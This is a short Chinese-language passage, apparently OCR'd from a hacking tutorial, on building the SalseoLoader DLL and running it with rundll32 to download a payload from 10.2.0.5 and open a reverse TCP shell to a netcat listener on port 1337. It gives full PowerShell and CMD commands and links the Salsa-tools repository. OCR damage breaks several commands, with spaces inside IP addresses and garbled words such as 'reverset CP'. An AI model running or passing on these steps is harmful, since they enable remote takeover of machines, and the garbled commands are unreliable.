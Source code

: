 为了**构建**解决方案:Build—>构建解决方案(在输出控制台内，新 DLL 的路径将会出现)

**测试生成的 Dll**

将 Dll 复制并粘贴到要测试的位置。

执行:

`rundll32.exe SalseoLoader.dll,main`

如果没有错误出现，可能你有一个功能 dll！！

**使用 Dll 获取外壳**

不要忘记使用一个 **HTTP 服务器并设置一个 nc 监听器**

**Powershell**

**$ env:pass = " password "
$ env:payload = " http://10 . 2 . 0 . 5/evilsalsax 64 . dll . txt "
$ env:lhost = " 10 . 2 . 0 . 5"
$ env:lport = " 1337"
$ env:shell = " reverset CP "
rundll32.exe salseo loader . dll，main**

**CMD**

**set pass = password
set payload = http://10 . 2 . 0 . 5/evil salsax 64 . dll . txt
set lhost = 10 . 2 . 0 . 5
set lport = 1337
set shell = reverset CP
rundll32.exe salseo loader . dll，main**

[**Download**](https://github.com/Hackplayers/Salsa-tools)********